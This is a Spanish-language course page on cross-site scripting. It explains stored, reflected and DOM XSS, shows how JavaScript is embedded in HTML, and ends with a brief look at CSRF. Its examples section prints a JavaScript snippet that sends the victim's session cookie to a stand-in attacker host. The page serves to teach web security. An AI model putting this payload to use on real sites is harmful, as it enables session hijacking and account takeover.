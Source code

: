 ```yaml
---
title : "Cross-Site Scripting"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 030
---
```


## Descripción General

El Cross-Site Scripting, o XSS (punto 7 en el OWASP Top 10), se refiere a una clase de vulnerabilidades que
intentan introducir código JavaScript en un sitio web, el cual será ejecutado en el navegador de otros usuarios.
Dependiendo de la aplicación en específico, las repercusiones de esto varían desde meras molestias hasta
la completa ruptura de confidencialidad e integridad del sistema.

Existen 3 tipos:
* **Almacenado**: El payload queda almacenado en algún lado y no es necesario estar activamente atacando a la víctima.
  Una vez que ella acceda a este, se ejecutará el código malicioso.

* **Reflejado**: El payload no se almacena permanentemente, sino que viene codificado en alguna variable
  (como un parámetro GET).

* **DOM**: Este tipo de XSS no puede ser ejecutado por medio de variables ni datos almacenados, sino que se debe
realizar una serie de acciones específicas en el mismo navegador de la víctima.

## JavaScript

JavaScript (JS) es un lenguaje de programación orientado a objetos que usualmente se utiliza para añadir
componentes dinámicas a un sitio web. [Aquí](https://www.w3schools.com/js/DEFAULT.asp)
pueden encontrar un tutorial de JS si lo necesitan.
El código JS en una página se ejecuta en el navegador del usuario, no en el servidor.
Existen varias formas _"oficiales"_ de insertar JS en un sitio. El primero es tener el código directamente en
el HTML, delimitado por tags `<script></script>`, por ejemplo:

    <html>
        <head>
            <script>
                ...code...
            </script>
        </head>
    </html>

La otra forma es hacer una referencia a un archivo que contenga el código, como por ejemplo:

    <html>
        <head>
            <script src="/code.js"></script>
        </head>
    </html>

Finalmente, se puede introducir JS bajo ciertos eventos, como `onclick`, `onerror`, `onmouseover`, etc.

    <html>
        <body>
            <button onclick="...code..."></button>
        </body>
    </html>

Existen otras formas de introducir código JS a un sitio web, pero se utilizan más que nada en ataques donde las
formas comunes están siendo bloqueadas o filtradas. Estas se escapan del ámbito de este curso, pero si están
interesados, pueden revisar la
[guía de evasión de filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) de OWASP.

## Ejemplos

Uno de los usos más peligrosos de este tipo de ataques es el robo de sesiones. El código introducido toma la
cookie de sesión de la víctima y se la envía al atacante. Luego él puede simplemente copiar esta cookie en
su navegador, con lo cual obtiene acceso autenticado como la víctima. El código a continuación logra hacer esto:

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://hacker.com/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cookie=" + document.cookie);

Otro uso es el Cross-Site Request Forgery (CSRF). Estos ataques intentan impersonar a la víctima, enviando
consultas en su nombre. Esto funciona ya que las consultas hechas a través de JavaScript también llevan las cookies
y parámetros de sesión del usuario, por lo que el atacante tiene el potencial de ganar los mismos permisos que
la víctima. Esto se podría utilizar, por ejemplo, para realizar acciones en nombre del administrador, con lo cual
crear otro usuario con permisos de administrador.

